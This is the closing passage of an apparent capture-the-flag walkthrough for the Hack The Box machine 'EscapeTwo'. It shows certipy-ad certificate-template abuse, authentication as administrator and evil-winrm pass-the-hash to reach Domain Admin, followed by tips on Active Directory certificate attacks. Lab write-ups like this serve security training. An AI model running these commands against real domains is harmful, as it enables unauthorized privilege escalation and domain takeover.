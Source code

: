 Then request a certificate for **`administrator@sequel.htb`**:

```bash
certipy-ad req -u ca_svc@sequel.htb -target sequel.htb \
-upn administrator@sequel.htb \
-ca sequel-DC01-CA -template DunderMifflinAuthentication \
-dc-ip 10.10.11.51 \
-hashes <hash>:<hash> \
-key-size 4096
```

Finally, we authenticate with that newly minted certificate:

```bash
certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51
```

This yields a TGT for `administrator`, and from there, we can request the NT hash or just connect directly:

```bash
evil-winrm -i 10.10.11.51 -u administrator -H <admin-nt-hash>
```

We are now **Domain Admin**.

---

## Conclusion & Tips

1. **Synchronize Your Clock**  
   When working with Kerberos-based attacks, run commands like `sudo rdate -n <DC-IP>` or `sudo ntpdate -u <DC-IP>` to ensure your local system time is in sync. Even slight time drift will cause Kerberos ticket requests to fail.

2. **Always Enumerate Shares**  
   Low-privileged SMB credentials often yield pivot points. In this case, `.xlsx` files contained multiple domain credentials.

3. **Look for Config Files**  
   Many Windows services—particularly MSSQL—store plain-text or reversible passwords in configuration (`.ini`, `.xml`) files. This gave us the `ryan` password.

4. **Master Certificate Attacks**  
   Active Directory Certificate Services can be misconfigured in numerous ways (ESC1–ESC8). Tools like `Certipy`, `pywhisker`, Impacket’s `gettgtpkinit.py`, and similar are invaluable for enumerating and exploiting these weaknesses.

5. **Practice Good Housekeeping**  
   If performing these steps in a real environment or an engagement, always revert changes (ownership, DACL) to avoid causing major disruptions.

**End Result**: We have achieved Domain Admin privileges on the **EscapeTwo** machine, capturing both the user and root/administrator flags.

---

Below is an additional section highlighting the main GitHub repositories for the tools used throughout the attack chain. Referencing the original source of each tool can help you install, update, and learn more about usage, flags, and community-driven improvements.

---